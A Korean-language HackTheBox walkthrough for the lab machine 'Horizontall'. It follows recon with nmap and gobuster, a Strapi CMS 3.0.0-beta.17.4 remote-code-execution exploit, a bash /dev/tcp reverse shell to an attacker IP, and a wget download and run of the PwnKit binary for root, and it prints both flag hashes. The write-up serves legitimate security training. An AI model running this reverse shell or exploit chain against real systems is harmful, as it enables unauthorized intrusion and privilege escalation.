# HackTheBox Walkthrough - Horizontall

**Machine Name**: Horizontall  
**Target IP**: 10.129.214.77  

---

## 🧭 정보 수집

### 🔍 Nmap 포트 스캔

```bash
nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 $ip
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
nmap -sV -sC -oA nmap/Horizontall $ip -p 22,80 
```



---

### 🌐 웹 서비스 분석

- `/etc/hosts`에 도메인 등록:

```
10.129.214.77   horizontall.htb
```



- 메인 페이지 확인:



- `gobuster`로 디렉토리 열람:

```bash
gobuster dir -u http://horizontall.htb/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

- 주요 발견 경로: `/css`, `/img`, `/index.html`, `/js` 등

---

### 🔍 JS 분석을 통한 하위 도메인 발견

- `chunk-vendors.js` 내 `api-prod.horizontall.htb` 발견:





```bash
10.129.214.77   api-prod.horizontall.htb
```

- API 페이지 접속:



- `gobuster`로 관리자 페이지 발견:

```bash
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

- `/admin` → Strapi CMS 로그인 페이지:



- `/reviews`에서 유저 확인:



---

## 🚨 취약점 분석 및 익스플로잇

### Strapi CMS 3.0.0-beta.17.4 - RCE



```bash
python3 50239.py http://api-prod.horizontall.htb/
```

- 비인증 RCE 성공 → Reverse Shell

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.74/9999 <&1'
```



- 셸 안정화:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

- User Flag 획득:

```bash
cat /home/developer/user.txt
# 03c7fcc0f0124c56a4af687250c8250a
```

---

## 🔼 Privilege Escalation

- `find`로 SUID 파일 검색:

```bash
find / -perm -4000 -type f 2> /dev/null
```



- `/usr/bin/pkexec` → PwnKit 취약점

```bash
# Kali 측
python3 -m http.server 7777

# 대상 측
wget http://10.10.14.74:7777/PwnKit
chmod +x PwnKit
./PwnKit
```



- Root Flag 획득:

```bash
cat /root/root.txt
# e7931bd6e9f0a01d00e008d5cdd5e005
```

---

## ✅ 요약

- Strapi CMS 취약점 통해 Blind RCE → 리버스 셸 획득
- `/usr/bin/pkexec`의 PwnKit 취약점으로 root 권한 상승
